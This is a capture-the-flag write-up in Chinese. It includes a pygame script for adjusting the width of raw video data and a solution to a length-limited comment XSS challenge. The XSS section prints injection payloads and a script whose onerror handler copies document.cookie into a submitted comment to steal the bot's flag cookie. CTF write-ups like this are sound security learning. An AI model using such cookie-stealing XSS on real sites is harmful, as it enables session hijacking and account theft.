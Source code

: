 ## 🪐 流式星球

嫌OpenCV太大，叫GPT写了个用pygame的宽度调教程序。程序好像有点问题，但也调出来了。赛后才想起来OpenCV有滑动条会好用些，不用全靠自己搞上下左右按键交互。

```python
import pygame
import numpy as np

a = np.fromfile("video.bin", dtype=np.uint8).reshape((-1, 3))[:114514]
w = 640

pygame.init()
screen = pygame.display.set_mode((800, 600))
pygame.key.set_repeat(200, 50)
while True:
    event = pygame.event.wait()
    if event.type == pygame.QUIT:
        pygame.quit()
        break
    elif event.type == pygame.KEYDOWN:
        w += (event.key == pygame.K_RIGHT) - (event.key == pygame.K_LEFT)
        w += ((event.key == pygame.K_UP) - (event.key == pygame.K_DOWN)) * 10
    elif event.type == pygame.MOUSEMOTION:
        continue
    pygame.display.set_caption(f"video {w = }")
    screen.fill((255, 255, 255))
    screen.blit(pygame.surfarray.make_surface(
        np.moveaxis(np.resize(a, (600, w, 3)), 0, 1)
    ), (0, 0))
    pygame.display.flip()
```

## 微积分计算小练习2.0

*毕竟正常人怎么可能留 `<img src=a onerror="alert(1)">` 这种评论嘛！*

我是谁？我在哪？要干嘛？然后发现`"+114514+"`成功了，难绷。

连函数调用需要的括号都被过滤了，25字符什么都做不到。就在为`\74"+location["hash"]+"\76`以壹字节略微超出限制，还无法注入空格而发愁时，发现了location URL字符串硬塞也能塞进属性里。

那么接下来就是典中典`<img onerror>`了。评论`\74img "+location+"\76`，然后让bot浏览下面的网页。

```javascript
<script>open("http://web/result#/src/onerror=comment[1].value=btoa(document.cookie).slice(0,25),document.forms[0].submit()")</script>
```

想到解法时比赛平台已经关闭了。不过好像虽然比赛平台关闭了，但是202.38.93.111还在。但是我把IP弄丢了。安然入眠。

因为调试时设置了document.cookie，从这题开始，我的浏览器给202.38.93.111发的HTTP请求里就一直带着Cookie: flag=114514的标头，不管哪题都是。

### 完成练习不需要了解任何微积分与符号计算的知识

